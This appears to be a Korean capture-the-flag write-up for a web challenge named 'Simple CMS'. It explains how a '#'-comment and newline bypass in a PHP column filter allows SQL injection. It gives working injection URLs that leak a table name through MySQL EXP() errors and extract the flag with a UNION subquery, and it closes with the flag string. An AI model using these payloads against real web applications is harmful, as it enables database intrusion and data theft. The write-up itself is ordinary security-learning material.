





## Simple CMS 193pt (Web)



뭔가 XpressEngine과 비슷한 클래스들이 있는 웹 문제였다. 취약점은 Board.class.php에서 검색 컬럼을 그대로 넣는데 필터링중에 #를 필터링하지 않음에 있었다.



`WHERE <column>=’<search>’`이였고 column, search 둘다 addslashes 처리가 되어있었다. 참고로 필터는 아래와 같다.

```php
if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
	$column = 'title';
}
```

여기서 column이 필터링에 걸리지 않는 문자인 #로 끝나면 search에 개행을 넣을 경우 #뒤는 전부 무시되니까 개행 이후가 쿼리로서 실행되게 된다. 단 저기서 `<prefix>`가 설치할 때 랜덤하게 지정된다. install/index.php, 즉 설치 스크립트에서 쓰이는 install/simple_cms.sql를 보면 플래그도 DB에 있었는데,



같은 prefix가 붙은 테이블명과 다른 prefix가 붙은 컬럼명들로 이루어져있었기때문에 쿼리 에러가 출력되는 점을 잘 이용해서 테이블명을 노출시키고 UNION이랑 서브쿼리를 써서 플래그를 뽑아냈다.

주소:
`/index.php?act=board&mid=search&col=title%23&type=1&search=%0A)||EXP(~title)%23`



일단 이렇게 테이블명을 뽑아낼 수 있다. EXP 등 몇몇 함수에 들어가는 함수에서 범위 에러등이 나면 그 안에 들어가는 확장된 구문트리를 그대로 풀어서 보여주는 MySQL 계열 DB들의 기능이 원인인 듯 하다. 정확한 이유는 잘 모르겠고 MySQL 소스코드에 나와있을 것 같다. 아마 몇버전 이상에서만 되었던 것 같다. mysql error based injection exp 등으로 구글링해보면 나오는 것 같은데 정확한 검색어는 모르겠다.

주소:
`/index.php?act=board&mid=search&col=%23&type=1&search=%0a0)%20union%20select%201,a,b,c,d%20from%20(select%201%20as%20a,%201%20as%20b,%201%20as%20c,%201%20as%20d%20union%20select%20*%20from%2041786c497656426a6149_flag)a%20limit%201,1%23`



** Flag: you_are_error_based_sqli_master_XDDDD_XD_SD_xD **
